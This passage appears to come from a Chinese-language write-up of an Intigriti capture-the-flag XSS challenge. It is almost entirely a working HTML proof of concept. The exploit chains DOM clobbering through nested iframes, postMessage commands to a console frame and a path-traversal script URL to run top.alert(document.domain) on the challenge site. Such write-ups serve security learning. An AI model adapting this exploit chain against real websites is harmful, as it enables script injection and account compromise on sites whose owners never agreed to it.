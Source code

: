 我最後的答案長這樣：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <title>XSS POC</title>  
</head>

<body>
  <script>
    const htmlUrl = 'https://challenge-0721.intigriti.io/htmledit.php?code='
    const exploitSrc = '/analytics/..%2fhtmledit.php?code=1;%0atop.alert(document.domain);/*'
    const insertPayload=`<iframe srcdoc="<script src=${exploitSrc}><\/script>">`
    const payload = `
      <a id="DEV"></a>
      <iframe name="store" srcdoc="
        <iframe srcdoc='<a id=admin href=ftp://a:a@a#${escape(insertPayload)}></a>' name=users>
      ">
      </iframe>
      <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
    `
    var win = window.open(htmlUrl + encodeURIComponent(payload))

    // wait for 3s to let window loaded
    setTimeout(() => {
      const credentials = {
        username: 'a',
        password: 'a'
      }
      win.frames[1].postMessage({
        cmd: 'reassign',
        message:{
          a: 's',
          b: 'u'
        },
        credentials
      }, '*')

      win.frames[1].postMessage({
        cmd: 'reassign',
        message:{
          a: 'Z',
          b: 'x+1'
        },
        credentials
      }, '*')

      win.frames[1].postMessage({
        cmd: 'logv',
        message: 'Z',
        credentials
      }, '*')
    }, 3000)

  </script>
</body>
</html>

```
